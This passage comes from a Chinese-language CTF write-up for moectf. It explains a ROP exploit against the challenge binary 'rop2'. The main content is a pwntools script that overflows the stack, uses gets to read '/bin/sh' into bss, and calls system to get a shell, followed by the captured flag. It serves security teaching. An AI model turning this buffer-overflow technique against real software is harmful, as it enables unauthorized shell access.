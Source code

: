 [外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-ENHutBRb-1605852471174)(https://i.loli.net/2020/08/09/hdC8S9FJGPBUbQl.png)]

那么我们只需要将`/bin/sh`字符串读到这个段上，再将之作为`system`函数的参数即可`getshell`

那么我们可以构造payload如下：

```
from pwn import *

e = ELF('rop2')
gets_addr = p64(e.symbols['gets'])
sys_addr = p64(e.symbols['system'])
pop_rdi = p64(0x400933)
bss_addr = p64(0x601080)

payload = b'A'*136 + pop_rdi + bss_addr + gets_addr + pop_rdi + bss_addr + sys_addr

p = process('rop2')
p.sendline(payload)
p.sendline('/bin/sh')
p.interactive() 
```

连接服务器，发送我们的payload，即可getshell

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-CYIrnW68-1605852471175)(https://i.loli.net/2020/08/09/fIoZyxE7F5biUQz.png)]

得到flag：

```
moectf{d44bc3cb-471b-4906-822b-ea5cb32c4acb} 
```

> Tips:
> 
> pwntools里的ELF模块可以帮助我们快速找到一些需要的地址
> 
> ```
>  from pwn import *
> e = ELF('file_name')	
> 
> e.symbols['func_name']	
> 
> e.bss()					
> 						
> 
> e.plt['func_name']		
> 						
> 						
>         
> e.got['func_name'] 
> ```

## baby migration - stack migration + ret2shellcode
